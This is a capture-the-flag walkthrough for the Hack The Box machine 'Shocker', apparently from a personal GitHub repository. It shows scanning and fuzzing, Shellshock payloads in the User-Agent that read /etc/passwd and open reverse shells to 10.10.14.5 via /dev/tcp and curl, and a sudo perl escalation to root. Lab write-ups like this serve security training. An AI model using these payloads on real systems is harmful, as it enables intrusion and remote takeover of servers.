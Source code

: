 # Shocker
**Machine ip:** 10.10.10.56

## Enumeration
+ `sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.56 -e tun0 > ports`
+ `ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')`
+ `sudo nmap -Pn -sV -sC -p$ports 10.10.10.56`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/c189963f-1f1f-47e3-8143-3c3590c67d76)
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/6d921d69-f5a3-4b01-8abf-b2705292468b)

+ Navigate to `http://10.10.10.56/`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/53721866-1078-4c64-a195-7717114fc1a3)

+ Fuzzing:
```
feroxbuster -u http://10.10.10.56 -x html,php,json,js,sh,cgi,pl,docx,pdf,txt -w /usr/share/wordlists/dirb/common.txt --depth 2 --filter-status 403,404,500 -r --extract-links
```
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/3a9ac037-a36f-41a4-9778-b82bdc5dbbc4)

+ Check `/cgi-bin/user.sh`: `curl http://10.10.10.56/cgi-bin/user.sh`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/47df5820-0a25-4802-a8fb-a4a987b0ad8e)

+ [Shellshock vulnerability](https://github.com/opsxcq/exploit-CVE-2014-6271): [CVE-2014-6271](https://github.com/b4keSn4ke/CVE-2014-6271)
+ `nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/user.sh 10.10.10.56`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/bc9402cf-aee0-410f-b78c-9ac7069a0151)

## Privilege Escalation

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/15545c15-606a-4e45-8555-0d886bd63fc2)

+ Make a request `http://10.10.10.56/cgi-bin/user.sh` and capture the request on burp.
+ Send to repeater, and then trigger.
+ Use `() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'` payload on the user-agent.
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/2d99b17d-fdb0-422b-bbf9-94be92bbb3b9)

Get a revershell: 
+ `nc -lnvp 4444`
+ `() { :;}; /bin/bash -i >& /dev/tcp/10.10.14.5/4444 0>&1`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/33347aa2-8d52-4ecc-bdd1-eefabc6550f0)
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a66c0774-5e34-43b9-a1e5-522fc5dd4399)

Alternatively, use `curl`: 
+ `curl -A "() { :; }; echo Content-Type: text/plain ; echo ; echo ; /usr/bin/id" http://10.10.10.56/cgi-bin/user.sh`
+ `nc -lnvp 5555`
```
curl -A "() { :; }; echo Content-Type: text/plain ; echo ; echo ; /bin/bash -i >& /dev/tcp/10.10.14.5/5555 0>&1" http://10.10.10.56/cgi-bin/user.sh
```
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/998447b4-78ef-40c0-929c-17cfbd01c157)

+ `sudo -l -l`
+ Check [gtfobins](https://gtfobins.github.io/) for [perl](https://gtfobins.github.io/gtfobins/perl/#sudo)
+ Get root.
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/c4f85588-6979-435d-b7ef-466ca66b7e4d)

# References & Alternatives:
+ https://vvmlist.github.io/#shock
+ https://0xdf.gitlab.io/2021/05/25/htb-shocker.html
+ https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/linux-boxes/shocker-writeup-w-o-metasploit
+ https://benheater.com/hackthebox-shocker/
+ https://infosecwriteups.com/shocker-from-hackthebox-52378519fb5b
+ https://corruptedprotocol.medium.com/shocker-hackthebox-htb-2cdac3cf3562
+ https://www.linkedin.com/pulse/hack-box-htb-shocker-walkthrough-abdulhakim-öner
+ https://medium.com/@orhan_yildirim/shocker-hackthebox-write-up-538631df688f
+ https://brcyrr.medium.com/hack-the-box-shocker-602ea7452797
